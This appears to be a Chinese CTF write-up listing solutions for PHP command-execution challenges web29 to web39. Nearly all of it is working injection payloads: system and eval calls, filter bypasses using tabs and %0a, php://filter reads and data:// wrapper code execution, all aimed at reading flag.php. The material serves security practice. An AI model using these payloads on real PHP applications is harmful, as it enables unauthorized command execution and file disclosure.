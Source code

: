 ```yaml
---
title: 命令执行刷题
date: 2025-01-11 10:20:52
tags:
    - "web"
    - "刷题"
    - 命令执行
categories:
    - Yohane-Mashiro
cover: https://avatars.githubusercontent.com/u/78677516?v=4
---
```


### web29
```payloads
?c=system("cat f???.php");
```

### web30
```payloads
?c=echo(`ls`);
?c=echo(`tac%20f*`);
```
或者
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```

### web31
```payloads
?c=eval($_GET[1]);&1=system("tac%20flag.php");
```
或者
```payloads
?c=echo(tac%09fla*); #使用tab来代替空格
```

### web32

使用语言结构，绕过（ 的过滤
常用的语言结构有：echo print include require isset unset

```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
利用文件包含的漏洞

### web33
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
这个也利用文件包含的漏洞

### web34
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web35
```
?c=include%0a$_GET[1]?%3E&1=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web36
```
?c=include%0a$_GET[sb]?%3E&sb=php://filter/convert.base64-encode/resource=flag.php
```
同上

### web37
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```
利用php伪协议

### web38
```
?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=
或者
c=data://text/plain,<?=system('tac fl*.*');?>
```

### web39
```
?c=data://text/plain,<?=system("tac fla*.php");?>//
```

--------
待补充